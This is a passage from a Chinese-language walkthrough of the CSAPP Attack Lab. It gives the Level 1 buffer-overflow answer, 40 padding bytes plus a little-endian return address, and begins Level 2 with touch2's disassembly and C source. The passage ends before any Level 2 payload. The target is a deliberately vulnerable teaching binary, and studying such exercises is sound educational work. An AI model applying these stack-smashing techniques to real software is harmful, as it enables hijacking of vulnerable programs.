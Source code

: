 所以，要修改`getbuf() ret addr`为`0x 00 00 00 00 00 40 17 c0`

由于输入是字符串字节，从左到右的输入由低地址向高地址存储，栈底是高地址，所以从栈顶向栈底存

输入字节从左到右 是 ： 随意40个字节+`c0 17 40 00 00 00 00 00 `，因为地址数据高对高低对低

**答案**

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00 
```

##### Level2 

同样要求不直接返回调用`test()`，而是调用`touch2()`，但是`touch2()`有输入参数，这个参数要求是`cookie`文件给定的数据`0x59b997fa`，

`Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination
addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of
control, even when you are not returning from a call.`

不能使用`jmp`跳转，因为目的指定地址编码并不那么容易确定

查看`touch2()`

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx ; 输入参数传递给edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie> edi is val
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

pdf给出了C代码

```c
void touch2(unsigned val)
{
 	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
 		validate(2);
 	} else {
 		printf("Misfire: You called touch2(0x%.8x)\n", val);
 		fail(2);
 	}
	 exit(0);
}
```
